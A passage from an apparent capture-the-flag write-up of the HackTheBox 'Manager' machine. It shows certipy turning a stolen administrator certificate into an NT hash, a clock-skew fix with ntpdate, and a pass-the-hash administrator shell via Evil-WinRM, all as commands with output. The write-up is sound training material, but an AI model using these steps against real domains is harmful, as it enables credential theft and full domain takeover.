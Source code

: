 ```
oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: nameserver manager.htb is not an IP address or valid https URL
[-] Use -debug to print a stacktrace

```

I’ll use `ntpdate` to sync my VM’s time to Manager’s:

```
oxdf@hacky$ sudo ntpdate 10.10.11.236
13 Mar 17:17:40 ntpdate[252490]: step time server 10.10.11.236 offset +25191.022331 sec

```

Now it works, leaking the hash:

```
oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

```

### WinRM

With the hash, I can get a shell as administrator using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```
oxdf@hacky$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And grab `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
589f36d6************************

```





